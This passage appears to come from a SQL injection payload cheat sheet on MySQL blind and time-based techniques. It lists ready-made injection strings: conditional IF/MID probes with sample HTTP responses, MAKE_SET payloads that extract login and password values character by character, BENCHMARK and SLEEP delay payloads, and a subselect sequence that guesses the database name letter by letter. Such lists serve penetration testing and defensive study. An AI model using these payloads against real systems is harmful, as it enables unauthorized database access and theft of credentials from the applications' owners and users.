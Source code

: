 In said query, it will check to see if an item exists in the "name" column in the "items" database that starts with an "a". If it will sleep for 3 seconds per item.

### MYSQL Blind using a conditional statement

TRUE: `if @@version starts with a 5`:

```sql
2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
Response:
HTTP/1.1 500 Internal Server Error
```

False: `if @@version starts with a 4`:

```sql
2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
Response:
HTTP/1.1 200 OK
```

### MYSQL Blind with MAKE_SET

```sql
AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)
```

### MYSQL Blind with LIKE

['_'](https://www.w3resource.com/sql/wildcards-like-operator/wildcards-underscore.php) acts like the regex character '.', use it to speed up your blind testing

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
```

## MYSQL Time Based

The following SQL codes will delay the output from MySQL.

```sql
+BENCHMARK(40000000,SHA1(1337))+
'%2Bbenchmark(3200,SHA1(1))%2B'
AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
RLIKE SLEEP([SLEEPTIME])
OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
```

### Using SLEEP in a subselect

```powershell
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')# 
1 and (select sleep(10) from dual where database() like '____')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
...
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
...
1 and (select sleep(10) from dual where database() like 'sw___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
...
```